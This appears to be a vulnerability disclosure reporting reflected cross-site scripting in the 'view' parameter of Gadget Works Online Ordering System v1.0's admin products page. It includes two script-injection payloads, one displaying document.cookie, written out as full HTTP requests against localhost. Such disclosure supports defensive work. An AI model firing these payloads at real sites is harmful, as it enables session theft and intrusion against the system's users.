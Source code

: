 # Gadget Works Online Ordering System v1.0 has Cross-site scripting (reflected)

BUG_Author: FinleyTang

Website source code address:https://www.sourcecodester.com/php/13093/gadget-works-online-ordering-system-phpmysqli.html

Vulnerability File: /philosophy/admin/products/index.php

Parameter "view" (GET), exists XSS vulnerability

Payload1:id=1&view=<script>alert(666)</script>

```
GET /philosophy/admin/products/index.php?id=1&view=%3Cscript%3Ealert(666)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=ooahfvgv2fiakgi64k9djt6efv
Connection: close
```

![image](https://github.com/FinleyTang/bug_report/blob/main/xss1.png)

Payload2:id=1&view=<script>alert(document.cookie)</script>

```
GET /philosophy/admin/products/index.php?id=1&view=%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=ooahfvgv2fiakgi64k9djt6efv
Connection: close
```

![image](https://github.com/FinleyTang/bug_report/blob/main/xss2.png)
